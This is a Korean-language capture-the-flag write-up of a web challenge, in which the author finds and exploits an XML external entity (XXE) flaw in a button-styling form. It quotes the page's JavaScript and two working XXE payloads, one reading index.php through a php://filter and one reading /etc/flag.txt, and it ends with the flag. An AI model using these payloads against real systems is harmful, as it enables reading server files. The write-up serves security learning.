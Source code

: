# Custom UI
**Web, 211pts**
> How often do you visit the website just to bounce back because of bad design? Now we developed a new feature, which gives you the ability to change the design! Check out a new feature: https://custom-ui.cha.hackpack.club/

--------------------------------------------------------------------------------

![Main](main.png)

색상과 텍스트를 입력하면 위의 버튼이 입력한 값에 따라 스타일이 변한다.

![Error](error.png)

입력하는 값에 문제가 있으면 위의 사진과 같이 오류가 출력되는 것을 볼 수 있다. 여기서 XML과 관련된 함수가 사용되는 것을 보고 **XXE Injection**일 것이라는 생각이 들었다. 하지만 색상과 텍스트를 입력하는 곳에 계속 테스트를 해봤지만 오류만 출력되어서 인젝션을 어떻게 해야할지 한참을 헤맸다.

```js
document.addEventListener("DOMContentLoaded", () => {
  
  let el = document.getElementById("btnColor");
  let el3 = document.getElementById("btnValue");
  let el2 = document.getElementById("xdata");
  el.onkeyup = updateData;
  el3.onkeyup = updateData;

  function updateData() {
    let data = "<button><color>" + el.value + "</color><value>" + el3.value + "</value></button>";
    el2.value = data;
  }
})
```

페이지 소스 코드와 위의 `post.js` 파일을 보면서 `xdata`가 무슨 역할을 하는지 이해가 안됐다. 그래서 Burp로 값이 어떻게 전달되는지 보려고 요청을 확인해봤는데, 입력한 값이 XML 형식으로 수정되어 전달되는 것을 보고 `xdata`에 인젝션을 시도하기로 했다.

사실 처음에 `debug` 쿠키가 false로 설정되어 있어서 true로 바꿔봤더니 이전에는 없었던 주석처리된 부분이 보였다. 내용은 플래그가 `/etc/flag.txt`에 있다는 힌트였다. 그런데 인젝션 포인트로 한참을 헤매다보니 잊어버리고 [문서](https://portswigger.net/web-security/xxe)를 보며 일단 `index.php` 파일의 내용을 출력할 수 있도록 했다.

```xml
<!DOCTYPE button [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]><button><color></color><value>&xxe;</value></button>
```

`xdata`를 위와 같이 만들어 요청을 보내면 버튼에 `index.php` 파일의 내용이 base64 인코딩되어 출력되는 것을 볼 수 있다. 여기서 쿠키가 있었다는 것이 다시 떠올라서 플래그 파일을 출력하기 위해 아래와 같이 요청을 보내 플래그를 획득할 수 있었다.

```
xdata=<!DOCTYPE%20button%20[%20<!ENTITY%20xxe%20SYSTEM%20"file:///etc/flag.txt">%20]><button><color></color><value>%26xxe;</value></button>
```

![Flag](flag.png)

```
Flag: flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}
```